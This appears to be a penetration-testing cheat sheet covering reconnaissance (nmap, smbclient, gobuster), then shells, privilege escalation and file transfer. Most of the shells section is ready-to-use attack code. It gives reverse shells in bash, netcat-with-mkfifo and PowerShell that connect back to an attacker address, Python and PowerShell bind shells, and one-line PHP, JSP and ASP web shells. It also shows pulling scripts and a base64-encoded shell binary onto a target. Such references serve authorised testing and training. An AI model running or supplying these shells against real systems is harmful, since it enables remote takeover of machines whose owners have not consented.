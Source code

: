 ## Getting started 

### SSH

```shell
  ssh <username>@<ip_address>
```

---

### Netcat

```shell
  netcat <ip_address> <port>
  nc <ip_address> <port>

  //banner grabbing
  nc -nv 10.129.42.253 21
```

---

### Tmux

```shell
  tmux -y
```

---

### Vim

```shell
  vim /etc/hosts
```

---

### Nmap 

```shell
  nmap <ip>
  nmap -sC -sV -p- <ip>
  nmap -A -p445 <ip>
  nmap --script smb-os-discovery.nse -p445 <ip>
```

---

### SmbClient 

```shell
  smbclient -L \\\\<ip>
  smbclient -U <username> \\\\<ip>//<share_name>
```

---

### Nmap 

```shell
  nmap <ip>
  nmap -sC -sV -p- <ip>
```

---

### SnmpWalk 

```shell
  snmpwalk -v 2c -c public <ip> 1.3.6.1.2.1.1.5.0
  snmpwalk -v 2c -c private  <ip>
```

---

### Curl

```
  curl -IL <full_url>
```

---

### GoBuster 

```shell
  gobuster dir -u <url> -w /usr/share/seclists/Discovery/Web-Content/common.txt
  gobuster dns -d <domain> -w /usr/share/SecLists/Discovery/DNS/namelist.txt
```

---

### Whatweb
```shell
  whatweb <ip>
  whatweb --no-errors <ip>
```

---

### SearchSploit
```shell
  searchsploit <name_of_service>
```

---

### Msfconsole
```shell
  msfconsole
  search exploit <exploit_name>
  use <exploit_path>
  set RHOSTS=<ip> set LHOST=<local_ip/network_interface>
  check
  exploit
```

---

## Shells

### Reverse shell
```shell
  //attacker
  nc -lvnp 1234

  //target
  bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f

  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

---

### Bind shell
```shell
  //attacker
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

  python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

  //target
  nc <attacker_ip> <port>
```

---

### Upgrading TTY
```shell
  python -c 'import pty; pty.spawn("/bin/bash")'

  ^Z;stty raw -echo;fg;[enter][enter]
```

---

### Web Shell
```shell
  //php
  <?php system($_REQUEST["cmd"]); ?>

  //jsp
  <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

  //asp
  <% eval request("cmd") %>
```

---

### Linux Privesc
```shell
  ./linpeas.sh

  sudo -l

  /etc/crontab

  vim id_rsa;chmod 600 id_rsa; ssh root@<ip> -i id_rsa
  
  
```

---

## Transferring Files

### Python server
```shell
  //attacker
  python3 -m http.server 8000

  //target
  wget http://<ip>:8000/linenum.sh
  curl http://<ip>:8000/linenum.sh -o linenum.sh
```

---

### SCP
```shell
  scp linenum.sh <user>@<remotehost/ip>:/tmp/linenum.sh
```

---

### Base64

```shell
  //attacker
  base64 shell -w 0

  //target - echo copied from output
  echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

---

### Validating files

```shell
  file <filename>

  //on both machines and ensure they match
  md5sum shell
```
---

### PHP Web Shells

```shell
  <?php system('id'); ?>
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <port>) >/tmp/f
  <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <port> >/tmp/f"); ?>

```
